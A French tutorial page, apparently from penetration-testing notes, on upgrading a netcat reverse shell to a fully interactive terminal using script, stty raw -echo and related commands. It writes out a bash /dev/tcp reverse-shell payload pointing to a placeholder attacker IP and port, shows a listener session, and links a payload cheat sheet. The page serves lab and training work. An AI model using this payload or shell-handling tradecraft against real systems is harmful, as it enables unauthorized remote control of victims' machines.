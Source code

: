 ```yaml
---
title: Obtenir un shell propre
sidebar_label: Obtenir un shell propre
pagination_label: Obtenir un shell propre
description: Après avoir injecté votre payload, vous obtenez un reverse shell depuis la commande netcat. Comment améliorer ce shell ?
keywords:
  - docs
  - Reverse shell
  - Netcat
  - Payload
---
```


## Pourquoi améliorer son reverse shell ?

Tout d'abord, si vous n'êtes pas encore à l'aise avec l'injection de reverse shell, je vous suggère de consulter [ce lien](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) pour avoir une liste de payloads à injecter.

Lorsque vous injectez votre payload (exemple: `bash -c 'bash -i >& /dev/tcp/[votre IP]/[port d'ecoute de netcat] 0>&1'`), vous obtenez un reverse shell depuis la commande netcat.

Cependant, ce shell est très limité, vous aurez donc rapidement envie de l'améliorer.

Par exemple il est impossible d'utiliser les flèches pour naviguer dans l'historique des commandes, ou encore d'interrrompre une commande avec `Ctrl+C`.

```bash
user@local$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.104] from (UNKNOWN) [10.10.11.211] 36734
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ ^C
user@local$
```

## Comment améliorer son reverse shell ?

### Attacher le shell à un terminal

Pour améliorer votre shell, vous pouvez utiliser la commande `script` pour attacher votre shell à un terminal.

Depuis le shell de la victime, exécutez la commande suivante :

```bash
bash-5.1$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
bash-5.1$
```

Vous obtenez ainsi un second shell, attaché cette fois au TTY.

### Mettre à niveau le shell

Il faut maintenant indiquer à notre terminal local d'enregistrer les entrées clavier et de les envoyer au shell distant.

Mettez d'abord le shell distant en arrirère-plan avec `Ctrl+Z`.

```bash
bash-5.1$ ^Z
[1]+  Stopped                 nc -lvnp 4444
```

Utilisez la commande `stty raw -echo` depuis le shell local: cela permet de désactiver l'affichage des caractères saisis et de les envoyer directement au shell distant.

Remettez le shell distant au premier plan avec `fg`.

```bash
user@local$ stty raw -echo ; fg
```

Pour remettre le curseur au bon endroit, utilisez la commande `reset`.

```bash
user@local$ stty raw -echo ; fg
nc -lnvp 4444
             reset
```

Si le type de terminal n'est pas reconnu, indiquez `screen`.

```bash
user@local$ stty raw -echo ; fg
nc -lnvp 4444
            reset
reset: unknown terminal type unknown
Terminal type? screen
```

Vous avez maintenant accès à un shell complètement interactif, dans lequel vous pouvez utiliser les flèches pour naviguer dans l'historique des commandes, ou encore interrompre une commande avec `Ctrl+C`.

```bash
bash-5.1$ ^C
bash-5.1$ ^C
bash-5.1$
```

### Remettre le terminal local à ses valeurs par défaut

Pour quitter le shell distant, utilisez la commande `exit`.
Vous quitterz dans un premier temps le shell attaché au terminal TTY, puis tapez `exit` une seconde fois pour quitter le premier reverse shell.

```bash
bash-5.1$ exit
exit
Script done.
            bash-5.1$ exit
                          exit
user@local$
```

Depuis le shell local, **vous ne voyez plus apparaître les caractères saisis** (puisque vous avez désactivé l'affichage local avec `stty raw -echo`), utilisez la commande `stty sane` pour remettre le terminal à ses valeurs par défaut.

```bash
user@local$ stty sane # Vous tapez la commande sans la voir
user@local$ echo "salut" # Le terminal est remis à ses valeurs par défaut
salut
user@local$
```
